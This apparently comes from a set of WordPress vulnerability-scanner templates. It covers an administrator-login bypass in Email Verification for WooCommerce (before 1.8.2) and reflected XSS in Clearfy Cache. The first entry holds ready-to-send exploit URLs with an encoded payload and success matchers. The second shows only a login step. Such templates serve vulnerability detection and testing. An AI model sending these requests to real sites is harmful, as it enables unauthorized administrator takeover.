 - Email Verification for WooCommerce Wordpress plugin prior to version 1.8.2 contains a loose comparison issue which could allow any user to log in as administrator.

- severity - critical
- tags - woocommerce,wp,wpscan,wordpress,wp-plugin

## Requests

- Method - GET

### URL

- {{BaseURL}}/my-account/?alg_wc_ev_verify_email=eyJpZCI6MSwiY29kZSI6MH0=
- {{BaseURL}}/?alg_wc_ev_verify_email=eyJpZCI6MSwiY29kZSI6MH0=

### Matchers

**Type - regex**

- part - header
- regex
  1. wordpress*logged_in*[a-z0-9]{32}

**Type - word**

- part - body
- words
  1. Your account has been activated!
  2. From your account dashboard you can view your
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Clearfy Cache \<2.0.5 - Cross-Site Scripting

## Description

- WordPress Clearfy Cache 2.0.5 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - xss,wp,wordpress,authenticated,clearfy-cache,wpscan,wp-plugin

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
